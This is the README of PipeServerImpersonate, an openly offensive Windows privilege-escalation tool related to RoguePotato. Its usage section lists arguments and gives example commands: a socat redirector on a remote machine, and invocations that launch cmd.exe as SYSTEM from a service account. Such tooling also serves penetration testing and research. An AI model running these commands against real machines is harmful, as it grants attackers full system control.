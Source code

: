 # PipeServerImpersonate

Just another Windows Local Privilege Escalation from Service Account to System. Full details at --> https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/

## Usage

``` 

        PipeServerImpersonate
        @splinter_code & @decoder_it


Mandatory args:
-r remote_ip: ip of the remote machine to use as redirector
-e commandline: commandline of the program to launch


Optional args:
-l listening_port: This will run the RogueOxidResolver locally on the specified port
-c {clsid}: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-p pipename_placeholder: placeholder to be used in the pipe name creation (default: PipeServerImpersonate)
-z : this flag will randomize the pipename_placeholder (don't use with -p)


Examples:
 - Network redirector / port forwarder to run on your remote machine, must use port 135 as src port
        socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.3:9999
 - PipeServerImpersonate without running RogueOxidResolver locally. You should run the RogueOxidResolver.exe on your remote machine. Use this if you have fw restrictions.
        PipeServerImpersonate.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe"
 - PipeServerImpersonate all in one with RogueOxidResolver running locally on port 9999
        PipeServerImpersonate.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999
 - PipeServerImpersonate all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename
        PipeServerImpersonate.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
        
```  

## Demo

![demo](demo.png)
